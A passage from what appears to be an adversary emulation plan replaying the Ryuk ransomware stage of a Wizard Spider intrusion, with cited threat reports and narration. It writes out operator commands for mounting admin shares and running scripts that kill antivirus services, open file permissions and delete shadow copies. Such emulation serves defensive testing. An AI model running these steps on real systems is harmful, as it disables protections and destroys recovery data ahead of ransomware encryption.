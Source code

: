 ### ☣️ Procedures

Mount share so Ryuk can encrypt lateral drives:

```bash
net use Z: \\10.0.0.8\C$
```

```bash
# Ryuk has called kill.bat for stopping services, disabling services and killing processes.[1]

# Ryuk can launch icacls /grant Everyone:F /T /C /Q to delete every access-based restrictions on files and directories.[4]

# Ryuk has stopped services related to anti-virus.[2]
```

```
copy \\TSCLIENT\X\kill.bat C:\Users\Public\kill.bat

C:\Users\Public\kill.bat
```

[Source Code](../../Resources/Ryuk/bin/kill.bat)

```bash
# Ryuk has used vssadmin Delete Shadows /all /quiet to to delete volume shadow copies and vssadmin resize shadowstorage to force deletion of shadow copies created by third-party applications.[1]
```

```
copy \\TSCLIENT\X\window.bat C:\Users\Public\window.bat

C:\Users\Public\window.bat
```

[Source Code](../../Resources/Ryuk/bin/window.bat)

### :microscope: Cited Intelligence

* <https://www.crowdstrike.com/blog/big-game-hunting-with-ryuk-another-lucrative-targeted-ransomware/>
* <https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html>
* <https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-006.pdf>

<br>

## Step 10 - Ryuk Encryption for Impact

:microphone: `Voice Track:`

In our final step, Wizard Spider uploads and executes Ryuk.

Ryuk is uploaded using the RDP-mounted network share, and executed from CMD.

When Ryuk executes, it will first gain `SeDebugPrivilege`.
